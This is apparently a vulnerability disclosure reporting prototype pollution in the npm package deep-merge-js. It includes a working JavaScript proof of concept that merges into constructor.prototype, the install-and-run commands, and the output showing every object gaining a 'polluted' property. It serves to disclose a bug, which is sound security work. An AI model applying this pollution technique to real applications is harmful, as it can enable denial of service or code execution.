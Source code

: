 # Description

`deep-merge-js` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const merge = require('deep-merge-js')

console.log('Before: ', {}.polluted)
merge(constructor.prototype, {polluted: true})
console.log('After: ', {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i deep-merge-js # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

